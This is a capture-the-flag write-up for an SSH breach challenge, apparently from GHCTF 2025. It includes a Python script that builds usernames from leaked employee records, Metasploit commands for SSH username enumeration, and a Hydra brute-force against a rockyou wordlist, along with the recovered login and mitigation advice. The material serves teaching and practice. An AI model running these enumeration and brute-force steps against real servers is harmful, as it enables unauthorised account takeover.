 # HR Database Breach - CTF Challenge Writeup

## Challenge Overview

**Difficulty:** Medium  
**Category:** Misc (Exploitation, Data Analysis)
**Points:** 500

### Challenge Description
After breaching the HR office, our hackers got their hands on a sensitive CSV database containing detailed records of all company employees: full names, email addresses, phone numbers, and more.

Your mission is to dig into this leaked data, identify a way in, and breach the main company server. The database might contain just what you need, if you know how to look.

**SSH Target:** `ssh <username>@ghctf.microclub.info -p 13502`

---

## Solution Walkthrough

This challenge requires a systematic approach combining data analysis, vulnerability research, and exploitation techniques. Here's how to solve it step by step:

### Step 1: Analyzing the Employee Database

First, examine the provided CSV file containing 1000 employee records with the following structure:
```
firstName,lastName,email,phoneNumber,department,address,salary,hireDate
```

The key insight is to focus on employees who would likely have system access - the IT department.

**Filter for IT Department Members:**
```bash
# Using grep to filter IT department employees
grep -i "IT" employees.csv > it_employees.csv

# Or using Python/pandas for more complex filtering
python3 -c "
import pandas as pd
df = pd.read_csv('employees.csv')
it_dept = df[df['department'].str.contains('IT', case=False, na=False)]
print(it_dept)
"
```

### Step 2: SSH Service Analysis

Next, investigate the SSH service running on the target server.

**Enumerate SSH Service:**
```bash
# Check SSH version and configuration
nmap -sV -p 13502 ghctf.microclub.info

# More detailed SSH enumeration
ssh-audit ghctf.microclub.info -p 13502
```

**Key Finding:** The SSH server is running **OpenSSH 7.7**, which is vulnerable to username enumeration attacks through timing-based side channels.

### Step 3: Username List Generation

From the IT department employee data, generate potential usernames using common naming conventions:

**Common Username Patterns:**
- `firstname` (e.g., `john`)
- `lastname` (e.g., `smith`)
- `firstname.lastname` (e.g., `john.smith`)
- `firstinitial + lastname` (e.g., `jsmith`)
- `firstname + lastinitial` (e.g., `johns`)

**Generate Username List:**
```bash
# Create usernames from IT employees (all lowercase)
python3 generate_usernames.py it_employees.csv > usernames.txt
```

Example Python script:
```python
import csv
import sys

def generate_usernames(csv_file):
    usernames = []
    with open(csv_file, 'r') as f:
        reader = csv.DictReader(f)
        for row in reader:
            first = row['firstName'].lower()
            last = row['lastName'].lower()
            
            usernames.extend([
                first,
                last,
                f"{first}.{last}",
                f"{first[0]}{last}",
                f"{first}{last[0]}"
            ])
    
    return list(set(usernames))  # Remove duplicates

if __name__ == "__main__":
    usernames = generate_usernames(sys.argv[1])
    for username in usernames:
        print(username)
```

### Step 4: SSH Username Enumeration

Use Metasploit's SSH username enumeration module to exploit the timing vulnerability:

**Launch Metasploit:**
```bash
msfconsole
```

**Configure the enumeration module:**
```
use auxiliary/scanner/ssh/ssh_enumusers
set RHOSTS ghctf.microclub.info
set RPORT 13502
set USER_FILE usernames.txt
set THREADS 10
run
```

**Result:** The enumeration reveals that the username `kristine` exists on the system.

### Step 5: Cross-Reference with Employee Data

Check the IT department employees to identify who "kristine" is:
- Look for employees with first name "Kristine" in the IT department
- **Discovery:** Kristine is the most recently hired IT department member

### Step 6: Password Brute Force Attack

Now that we have a valid username, attempt to brute force the password:

**Using Hydra:**
```bash
hydra -l kristine -P /usr/share/wordlists/rockyou.txt \
      ghctf.microclub.info -s 13502 ssh -t 4 -V
```

**Using Metasploit:**
```
use auxiliary/scanner/ssh/ssh_login
set RHOSTS ghctf.microclub.info
set RPORT 13502
set USERNAME kristine
set PASS_FILE /usr/share/wordlists/rockyou.txt
set THREADS 10
run
```

**Result:** The password `thalia` is found at line 2025 of the rockyou wordlist (a reference to GHCTF 2025 edition).

### Step 7: SSH Access and Flag Retrieval

**Establish SSH Connection:**
```bash
ssh kristine@ghctf.microclub.info -p 13502
# Password: thalia
```

**System Exploration:**
```bash
# Check current user and permissions
whoami
id

# Explore the file system
ls -la /
ls -la /home
ls -la /root
```

**Flag Retrieval:**
```bash
# The flag is located in /root/flag.txt
cat /root/flag.txt
```

---

## Key Learning Points

1. **Data Analysis**: Always analyze provided data files thoroughly - they often contain crucial information for the next steps.

2. **Service Enumeration**: Identifying specific software versions can reveal known vulnerabilities.

3. **Username Generation**: Understanding common naming conventions is crucial for username enumeration attacks.

4. **Timing Attacks**: OpenSSH 7.7 and earlier versions are vulnerable to timing-based username enumeration.

5. **Password Security**: Even in 2025, weak passwords from common wordlists remain a significant security risk.

## Tools Used

- **Data Analysis**: Python, pandas, grep
- **Network Enumeration**: nmap, ssh-audit
- **Exploitation**: Metasploit Framework
- **Password Attacks**: Hydra, Metasploit
- **System Access**: SSH client

## Mitigation Strategies

- **For SSH**: Upgrade to OpenSSH 8.0+ to mitigate timing-based username enumeration
- **For Passwords**: Implement strong password policies and multi-factor authentication
- **For Data Protection**: Encrypt sensitive databases and implement proper access controls
- **For User Management**: Regular audits of user accounts and permissions

**written by : Abderrahmane and Mounir **